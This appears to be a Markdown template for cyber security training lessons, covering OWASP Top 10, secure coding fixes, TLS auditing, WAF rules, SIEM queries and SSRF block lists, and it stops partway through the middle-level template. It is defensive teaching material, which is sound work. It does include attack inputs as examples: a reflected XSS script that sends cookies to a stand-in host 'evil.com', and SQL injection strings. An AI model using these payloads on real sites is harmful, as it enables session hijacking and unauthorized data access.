# Cyber Security Roadmap — Universal Template

> **A comprehensive template system for generating Cyber Security roadmap content across all skill levels.**
>
> **Ethical Disclaimer:** All content is for defensive security, authorized penetration testing, CTF competitions, and security research only. Never apply offensive techniques without explicit written authorization.

## Overview

| | Description |
|---|---|
| **Purpose** | Universal template for all Cyber Security roadmap topics |
| **Files per topic** | 8 files: `junior.md`, `middle.md`, `senior.md`, `professional.md`, `interview.md`, `tasks.md`, `find-bug.md`, `optimize.md` |
| **Code fences** | `python` for tools/scripts, `bash` for CLI, `c` for memory bugs, `text` for payloads |
| **Error Handling name** | "Secure Failure Handling (Fail Safe vs Fail Open)" |
| **Post-Code-Examples** | `## Security Patterns` (mermaid diagrams) + `## Clean Security Code` |

### Topic Structure
```
XX-topic-name/
├── junior.md       ← OWASP Top 10, XSS/SQLi basics, TLS, CVE understanding
├── middle.md       ← STRIDE threat modeling, WAF design, SIEM, secure SDLC
├── senior.md       ← Zero-trust architecture, security program, supply chain, IR
├── professional.md ← Exploit Internals and Threat Modeling
├── interview.md    ← Interview prep across all levels
├── tasks.md        ← Hands-on practice (authorized/CTF environments)
├── find-bug.md     ← Vulnerability exercises (10 bugs)
└── optimize.md     ← CVE count, MTTR, attack surface, FPR optimization
```

### Level Comparison Matrix

| Aspect | Junior | Middle | Senior | Professional |
|--------|--------|--------|--------|--------------|
| Depth | OWASP Top 10, basic vulns | Threat modeling, WAF, SIEM | Zero-trust, supply chain | Memory corruption, ROP, kernel exploits |
| Focus | "What threats exist?" | "How do I model and detect?" | "How do I build a program?" | "How do exploits work at the binary level?" |
| Patterns | 2 security patterns | 3 security patterns | 4 security patterns | Source-level internals |
| Best Practices | — | — | Must Do / Never Do / Checklist | — |

---

# TEMPLATE 1 — `junior.md`

<details open>
<summary><strong>Template Content</strong></summary>

# {{TOPIC_NAME}} — Junior Level

> **Ethical Disclaimer:** All content is for defensive security, authorized penetration testing, CTF competitions, and security research only.

## Table of Contents
1. [Introduction](#introduction)
2. [Glossary](#glossary)
3. [OWASP Top 10](#owasp-top-10)
4. [Basic Vulnerabilities](#basic-vulnerabilities)
5. [TLS Basics](#tls-basics)
6. [CVE Understanding](#cve-understanding)
7. [Code Examples](#code-examples)
8. [Security Patterns](#security-patterns)
9. [Clean Security Code](#clean-security-code)
10. [Product Use / Feature Context](#product-use--feature-context)
11. [Secure Failure Handling (Fail Safe vs Fail Open)](#secure-failure-handling-fail-safe-vs-fail-open)
12. [Security Considerations](#security-considerations)
13. [Performance Notes](#performance-notes)
14. [Metrics](#metrics)
15. [Edge Cases](#edge-cases)
16. [Common Mistakes](#common-mistakes)
17. [Misconceptions](#misconceptions)
18. [Tricky Points](#tricky-points)
19. [Test](#test)
20. [Tricky Questions](#tricky-questions)
21. [Cheat Sheet](#cheat-sheet)
22. [Self-Assessment](#self-assessment)
23. [Summary](#summary)
24. [What You Can Build](#what-you-can-build)
25. [Further Reading](#further-reading)
26. [Related Topics](#related-topics)
27. [Diagrams](#diagrams)

## Introduction
{{TOPIC_NAME}} introduces the foundational security landscape: the OWASP Top 10 vulnerability categories that affect most web applications, common injection and access-control vulnerabilities, how TLS protects data in transit, and how to read CVE advisories. Security at the junior level is about recognizing what can go wrong and applying the first layer of defenses.

## Glossary
| Term | Definition |
|------|-----------|
| **XSS** | Cross-Site Scripting — injecting malicious scripts into a page served to other users |
| **SQLi** | SQL Injection — inserting SQL code into application queries to manipulate the database |
| **CVE** | Common Vulnerabilities and Exposures — publicly tracked vulnerability identifier |
| **CVSS** | Common Vulnerability Scoring System — numeric severity score 0.0–10.0 |
| **TLS** | Transport Layer Security — cryptographic protocol that secures data in transit |
| **IDOR** | Insecure Direct Object Reference — accessing another user's resource by changing an ID |
| **SSRF** | Server-Side Request Forgery — forcing the server to make internal requests |
| **OWASP** | Open Web Application Security Project — community standard for web security |
| **Parameterized Query** | SQL query where user input is a bound parameter, not concatenated into the query |
| **Output Encoding** | Escaping special characters before rendering user data in HTML/JS/URL contexts |

## OWASP Top 10


| # | Risk | Example | Defense |
|---|------|---------|---------|
| A01 | Broken Access Control | IDOR on `/api/invoices/42` | Ownership check server-side |
| A02 | Cryptographic Failures | MD5 password hashes | bcrypt / Argon2 |
| A03 | Injection | `' OR '1'='1` in login | Parameterized queries |
| A04 | Insecure Design | No rate limit on OTP | Threat model in design phase |
| A05 | Security Misconfiguration | Stack trace in HTTP 500 | Generic error responses |
| A06 | Vulnerable Components | Log4Shell in dependency | SCA scanning (Dependabot) |
| A07 | Auth Failures | Guessable session tokens | Crypto PRNG, short session TTL |
| A08 | Software Integrity | No signature on update | Code signing, SRI |
| A09 | Logging Failures | No auth event logs | Structured security logging |
| A10 | SSRF | Fetch to `169.254.169.254` | Block private IP ranges |

## Basic Vulnerabilities

### SQL Injection
```python
# Vulnerable — string concatenation
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
# Payload: username = "' OR '1'='1' --"

# Secure — parameterized query
cursor.execute(
    "SELECT * FROM users WHERE username = ? AND password = ?",
    (username, hashed_password)
)
```

### Reflected XSS
```text
URL: /search?q=<script>fetch('https://evil.com?c='+document.cookie)</script>
Server renders: <h1>Results for: <script>...</script></h1>
→ victim's browser executes attacker's script
```
```python
import html
# Always escape user-controlled output before rendering in HTML
safe_output = html.escape(user_input)   # < → &lt;  > → &gt;  & → &amp;
```

### IDOR
```python
# Vulnerable — no ownership check
def get_invoice(invoice_id: int) -> dict:
    return db.execute("SELECT * FROM invoices WHERE id = ?", (invoice_id,)).fetchone()

# Secure — enforce ownership
def get_invoice(invoice_id: int, current_user_id: int) -> dict:
    row = db.execute(
        "SELECT * FROM invoices WHERE id = ? AND user_id = ?",
        (invoice_id, current_user_id)
    ).fetchone()
    if not row:
        raise PermissionError("Not found or access denied")
    return row
```

## TLS Basics


```bash
# Check TLS configuration
openssl s_client -connect example.com:443 -tls1_3 2>/dev/null | grep -E "Protocol|Cipher"
nmap --script ssl-enum-ciphers -p 443 example.com
testssl.sh --full https://example.com
```

| TLS Configuration | Status |
|-------------------|--------|
| TLS 1.0 / 1.1 | Deprecated — disable |
| TLS 1.2 with AEAD ciphers (AES-GCM) | Acceptable |
| TLS 1.3 | Recommended — simpler, faster, more secure |
| Self-signed cert | Never in production |
| Certificate validation disabled | Critical vulnerability |

## CVE Understanding
| Field | Meaning | Example (Log4Shell) |
|-------|---------|---------------------|
| CVE ID | Unique identifier | CVE-2021-44228 |
| CVSS Score | 0.0–10.0 (Critical ≥ 9.0) | 10.0 |
| CWE | Root cause weakness | CWE-917 (Expression Language Injection) |
| NVD Entry | Patch info, CVSS vector, affected versions | nvd.nist.gov |
| EPSS | Exploit Prediction Scoring System | Probability of exploitation in 30 days |

## Code Examples
```python
# Secure password storage with bcrypt
import bcrypt

def hash_password(plaintext: str) -> bytes:
    return bcrypt.hashpw(plaintext.encode(), bcrypt.gensalt(rounds=12))

def verify_password(plaintext: str, hashed: bytes) -> bool:
    return bcrypt.checkpw(plaintext.encode(), hashed)
```

```python
# Secure session token generation
import secrets
import time

def generate_session_token() -> str:
    return secrets.token_urlsafe(32)   # 256-bit from CSPRNG

def create_session(user_id: int, token_ttl_seconds: int = 3600) -> dict:
    return {
        "token": generate_session_token(),
        "user_id": user_id,
        "expires_at": time.time() + token_ttl_seconds,
        "created_at": time.time(),
    }
```

```python
# Generic error response — never expose stack traces
from flask import Flask, jsonify
import logging

app = Flask(__name__)
logger = logging.getLogger("security")

@app.errorhandler(Exception)
def handle_error(e):
    logger.error(f"Unhandled exception: {e}", exc_info=True)   # log details internally
    return jsonify({"error": "An unexpected error occurred"}), 500  # generic to user
```

## Security Patterns





## Clean Security Code
| Naming Pattern | Anti-Pattern | Better Pattern |
|----------------|-------------|----------------|
| `get_user_data(id)` | Implicit trust of `id` | `get_user_data(id, requesting_user_id)` — ownership explicit |
| `render(template, user_input)` | No encoding hint | `render(template, html.escape(user_input))` |
| `query = f"... {val}"` | String concatenation | `db.execute("... ?", (val,))` |
| `except Exception: pass` | Silent failure | `except Exception as e: log_security(e); raise SafeError` |

| Design Anti-Pattern | Better Pattern |
|--------------------|----------------|
| Trust client-supplied user ID | Always derive user ID from authenticated session server-side |
| Single security layer | Defense-in-depth: validation → parameterization → encoding → logging |
| Detailed error to user | Generic user error + detailed internal log |

## Product Use / Feature Context
- **E-commerce checkout** — IDOR on order IDs lets attackers view competitor orders; SQLi can dump card data
- **Blog with comments** — stored XSS in comment field executes in every reader's browser
- **File download endpoint** — path traversal can expose `/etc/passwd` or application secrets
- **Password reset** — if using predictable tokens, attackers can take over any account

## Secure Failure Handling (Fail Safe vs Fail Open)
```python
def get_user_resource(resource_id: int, user_id: int) -> dict:
    try:
        row = db.execute(
            "SELECT * FROM resources WHERE id = ? AND owner_id = ?",
            (resource_id, user_id)
        ).fetchone()
        if not row:
            raise PermissionError("Access denied")
        return dict(row)
    except PermissionError:
        raise   # re-raise — caller handles with 403
    except Exception as e:
        logger.error(f"DB error for resource {resource_id}: {e}", exc_info=True)
        raise RuntimeError("Resource unavailable")  # Fail safe — deny on DB error, not expose
    # NEVER: except Exception: return db.execute("SELECT * FROM resources WHERE id = ?", ...)
    # That bypasses ownership check on DB error — fail OPEN
```

| Strategy | On Error | Use When |
|----------|----------|----------|
| **Fail Safe (Fail Closed)** | Deny access, log | All security controls |
| **Fail Open** | Allow through | Non-sensitive availability features only |

## Security Considerations
- Never store passwords in plaintext; always use bcrypt/Argon2 with per-user salt
- Set `HttpOnly` and `Secure` flags on session cookies; use `SameSite=Strict` to prevent CSRF
- Content-Security-Policy header prevents XSS even if output encoding is missed
- Log all security-relevant events: auth attempts, access denied, input validation failures

## Performance Notes
- bcrypt with rounds=12 adds ~200ms to login — acceptable; prevents brute force
- Parameterized queries add negligible overhead vs. string concatenation
- Rate limiting should be implemented server-side; never rely on client-side controls

## Metrics
| Metric | Target |
|--------|--------|
| Open critical CVEs > 7 days | 0 |
| Auth event log coverage | 100% |
| Parameterized query coverage | 100% of DB calls |
| HTTPS enforcement | 100% of endpoints |

## Edge Cases
- Unicode normalization attacks: `ＳＥＬＥＣＴ` may bypass keyword filters but not parameterized queries
- Second-order SQLi: user input stored in DB, later interpolated into a new query
- DOM-based XSS: vulnerability is in client-side JavaScript, not server-side rendering
- IDOR via batch API endpoints: `POST /api/invoices/batch` with array of IDs

## Common Mistakes
| Mistake | Fix |
|---------|-----|
| Trusting user-supplied IDs without ownership check | Always verify `WHERE id = ? AND owner_id = ?` |
| Using `MD5` or `SHA-1` for password hashing | Use bcrypt/Argon2 |
| Disabling TLS certificate validation in code | Always validate the full chain |
| Returning stack traces in HTTP error responses | Generic user error + internal structured log |
| Storing secrets in source code | Environment variables / secrets manager |

## Misconceptions
- **"Input validation is enough to stop SQLi"** — parameterized queries are required; validation is complementary
- **"HTTPS means the app is secure"** — TLS only encrypts transport; application vulnerabilities still exist
- **"Passwords are safe if hashed"** — only with slow hashing algorithms (bcrypt/Argon2); MD5/SHA-1 are broken for passwords
- **"My internal API doesn't need auth"** — lateral movement within a network requires the same auth controls

## Tricky Points
- `html.escape()` protects HTML context; URL encoding is different (`urllib.parse.quote`)
- Session tokens must be regenerated after privilege change (login, role elevation) to prevent session fixation
- `HttpOnly` prevents JavaScript access to cookies — it does NOT prevent XSS, it limits the damage

## Test
```python
def test_ownership_check():
    user_a = create_user(); user_b = create_user()
    resource = create_resource(owner=user_a)
    with pytest.raises(PermissionError):
        get_user_resource(resource.id, user_id=user_b.id)

def test_sql_parameterization():
    malicious = "' OR '1'='1"
    result = search_products(malicious)
    assert result == []   # no results, not a data dump

def test_password_hash_not_plaintext():
    h = hash_password("secret")
    assert h != b"secret"
    assert bcrypt.checkpw(b"secret", h)
```

## Tricky Questions
**Q: Why doesn't output encoding alone prevent all XSS?**
Output encoding covers HTML context. Developers must also apply URL encoding when outputting into href/src attributes, JavaScript encoding when inside script blocks, and CSS encoding in style attributes. The context determines the correct encoding function.

**Q: Why is MD5 or SHA-1 unacceptable for passwords even with a salt?**
These are fast hash functions — a GPU can compute billions per second. Even with a salt, offline brute force is feasible. bcrypt and Argon2 are intentionally slow (configurable cost factor) to make brute force infeasible.

## Cheat Sheet
```text
OWASP Top 10 quick: A01 Access Control | A02 Crypto | A03 Injection | A05 Misconfiguration
                    A07 Auth Failures  | A10 SSRF

Injection prevention: parameterized queries (ALL DB calls)
XSS prevention:       html.escape() + CSP header + HttpOnly cookie
Auth: bcrypt/Argon2 | CSPRNG tokens | HttpOnly+Secure+SameSite cookies
Fail safe:  except Exception → deny + log (never bypass security on error)
```

## Self-Assessment
- [ ] Can explain OWASP Top 10 with an example for each
- [ ] Can identify SQL injection, XSS, IDOR in a code review
- [ ] Can implement parameterized queries and output encoding
- [ ] Understands TLS handshake and can audit TLS configuration
- [ ] Can read a CVE advisory and determine urgency

## Summary
Junior cyber security covers: OWASP Top 10 as the primary risk taxonomy, the three most common web vulnerabilities (SQLi, XSS, IDOR) with parameterized queries and output encoding as defenses, TLS configuration basics, CVE/CVSS reading, and the fail-safe principle for error handling. Security is applied in layers: validation → parameterization → encoding → logging.

## What You Can Build
- Secure login system: bcrypt passwords, CSPRNG session tokens, generic error responses
- Input validation + parameterization layer for any Python web app
- TLS audit script using `testssl.sh` with a structured remediation report
- OWASP Top 10 checklist tool for a given architecture diagram

## Further Reading
- OWASP Top 10: owasp.org/www-project-top-ten
- OWASP Testing Guide v4.2
- PortSwigger Web Security Academy: portswigger.net/web-security
- NVD CVE database: nvd.nist.gov

## Related Topics
- Cryptography fundamentals
- HTTP protocol and web architecture
- Linux file permissions and process model

## Diagrams


</details>

---

# TEMPLATE 2 — `middle.md`

<details open>
<summary><strong>Template Content</strong></summary>

# {{TOPIC_NAME}} — Middle Level

> **Ethical Disclaimer:** All content is for defensive security, authorized penetration testing, CTF competitions, and security research only.

## Table of Contents
1. [Evolution from Junior Level](#evolution-from-junior-level)
2. [Threat Modeling — STRIDE](#threat-modeling--stride)
3. [WAF Design and Tuning](#waf-design-and-tuning)
4. [SIEM and Logging](#siem-and-logging)
5. [Penetration Testing Methodology](#penetration-testing-methodology)
6. [Secure SDLC](#secure-sdlc)
7. [Code Examples](#code-examples)
8. [Security Patterns](#security-patterns)
9. [Clean Security Code](#clean-security-code)
10. [Product Use / Feature Context](#product-use--feature-context)
11. [Secure Failure Handling (Fail Safe vs Fail Open)](#secure-failure-handling-fail-safe-vs-fail-open)
12. [Security Considerations](#security-considerations)
13. [Performance Optimization](#performance-optimization)
14. [Metrics](#metrics)
15. [Debugging Guide](#debugging-guide)
16. [Best Practices](#best-practices)
17. [Edge Cases](#edge-cases)
18. [Anti-Patterns](#anti-patterns)
19. [Tricky Points](#tricky-points)
20. [Comparison Table](#comparison-table)
21. [Test](#test)
22. [Tricky Questions](#tricky-questions)
23. [Cheat Sheet](#cheat-sheet)
24. [Summary](#summary)
25. [What You Can Build](#what-you-can-build)
26. [Further Reading](#further-reading)
27. [Related Topics](#related-topics)
28. [Diagrams](#diagrams)

## Evolution from Junior Level
| Junior | Middle |
|--------|--------|
| Recognize OWASP Top 10 | Produce full STRIDE threat model for a system |
| Fix individual vulnerabilities | Design defense-in-depth architecture |
| Basic parameterized queries | Write WAF rules and tune false positive rates |
| Know CVE exists | Integrate SCA scanning into CI/CD; track SLA |
| One-off security fixes | Security integrated across the full SDLC |

## Threat Modeling — STRIDE


| Threat | STRIDE Category | Mitigation | CVSS Element |
|--------|----------------|-----------|--------------|
| Stolen credentials | Spoofing | MFA, short-lived tokens | Integrity |
| Cookie modification | Tampering | HMAC-signed cookies, SameSite | Integrity |
| No login audit | Repudiation | Append-only SIEM log | — |
| Username enumeration | Info Disclosure | Generic error messages | Confidentiality |
| Brute force | DoS | Rate limiting, CAPTCHA, account lockout | Availability |
| IDOR to admin resource | Elevation of Privilege | RBAC, ownership checks | Confidentiality |

## WAF Design and Tuning
```bash
# ModSecurity CRS — block SQL injection in POST body
SecRule ARGS "@detectSQLi" \
    "id:942100,phase:2,block,msg:'SQLi detected',severity:CRITICAL,tag:'OWASP_CRS/WEB_ATTACK/SQL_INJECTION'"

# XSS detection in query string
SecRule ARGS "@detectXSS" \
    "id:941100,phase:2,block,msg:'XSS detected',severity:CRITICAL"

# Rate limit /login — 10 requests per 60s per IP
SecAction "id:900700,phase:1,nolog,pass,initcol:IP=%{REMOTE_ADDR}"
SecRule IP:logincount "@gt 10" "id:900701,phase:2,block,msg:'Login rate limit'"
```

| WAF Mode | FPR | FNR | When to Use |
|----------|-----|-----|------------|
| Detection-only | — | High | Initial tuning phase |
| Block standard CRS | ~8% initial | Medium | Default production |
| Tuned (FP exceptions) | < 1% | Low | After 2-week tuning cycle |
| Paranoia Level 3 | High | Very low | High-value, low-traffic targets |

## SIEM and Logging
```python
import logging, json, time, hashlib

security_log = logging.getLogger("security")

def log_security_event(event_type: str, user_id: str, ip: str,
                        success: bool, details: dict = None) -> None:
    security_log.info(json.dumps({
        "event_type": event_type,   # auth | access_denied | input_violation | admin_action
        "user_id": user_id,
        "ip": ip,
        "success": success,
        "ts": time.time(),
        "details": details or {},
    }))

# Usage
log_security_event("auth", "user_42", "203.0.113.5", success=False,
                   details={"reason": "invalid_password", "attempt": 3})
```

```bash
# Splunk: brute force detection — 5 failures in 60s from same IP
# index=security event_type=auth success=false
# | bucket _time span=60s
# | stats count by _time, ip
# | where count >= 5

# Splunk: privilege escalation detection
# index=security event_type=admin_action
# | where user_role != "admin"
# | stats count by user_id, action, _time
```

## Penetration Testing Methodology


| Phase | Activities | Tools |
|-------|-----------|-------|
| Reconnaissance | Subdomain enum, port scan, tech fingerprint | nmap, amass, whatweb |
| Scanning | Vuln scan, web crawl | Nikto, OWASP ZAP |
| Exploitation | Targeted PoC for confirmed vulns | Burp Suite, Metasploit |
| Post-exploitation | Lateral movement, privilege escalation | (authorized scope only) |
| Reporting | Title, description, PoC, CVSS, recommendation | Custom report template |

## Secure SDLC
| Phase | Security Activity | Tool |
|-------|------------------|------|
| Requirements | Security requirements, abuse cases | OWASP ASVS |
| Design | STRIDE threat model, data flow diagram | OWASP Threat Dragon |
| Development | SAST, dependency checks, secure code review | Semgrep, Bandit, Dependabot |
| Testing | DAST, API fuzzing, auth testing | OWASP ZAP, Burp Suite |
| Release | SCA CVE gate, container scan, SBOM | Trivy, Grype, Syft |
| Operations | SIEM alerts, anomaly detection, patch management | Splunk, Elastic SIEM |

## Code Examples
```python
# CSRF protection with double-submit cookie pattern
import secrets, hmac, hashlib

def generate_csrf_token(session_id: str, secret: bytes) -> str:
    random_part = secrets.token_hex(16)
    signature = hmac.new(secret, f"{session_id}:{random_part}".encode(),
                          hashlib.sha256).hexdigest()
    return f"{random_part}.{signature}"

def verify_csrf_token(token: str, session_id: str, secret: bytes) -> bool:
    try:
        random_part, signature = token.split(".", 1)
        expected = hmac.new(secret, f"{session_id}:{random_part}".encode(),
                             hashlib.sha256).hexdigest()
        return hmac.compare_digest(signature, expected)
    except Exception:
        return False
```

```python
# SSRF prevention — block private/link-local IP ranges
import ipaddress, socket, urllib.parse

BLOCKED_RANGES = [
    ipaddress.ip_network("10.0.0.0/8"),
    ipaddress.ip_network("172.16.0.0/12"),
    ipaddress.ip_network("192.168.0.0/16"),
    ipaddress.ip_network("169.254.0.0/16"),   # AWS metadata
    ipaddress.ip_network("127.0.0.0/8"),
    ipaddress.ip_network("::1/128"),
]

def is_ssrf_safe(url: str) -> bool:
    parsed = urllib.parse.urlparse(url)
    if parsed.scheme not in ("http", "https"):
        return False
    try:
        ip = ipaddress.ip_address(socket.gethostbyname(parsed.hostname))
        return not any(ip in net for net in BLOCKED_RANGES)
    except Exception:
        return False
```

```python
# Path traversal prevention
import os

UPLOAD_DIR = "/var/app/uploads"

def safe_file_path(filename: str) -> str:
    # Resolve all symlinks and .. before checking
    resolved = os.path.realpath(os.path.join(UPLOAD_DIR, filename))
    if not resolved.startswith(UPLOAD_DIR + os.sep):
        raise PermissionError(f"Path traversal attempt: {filename}")
    return resolved
```

## Security Patterns





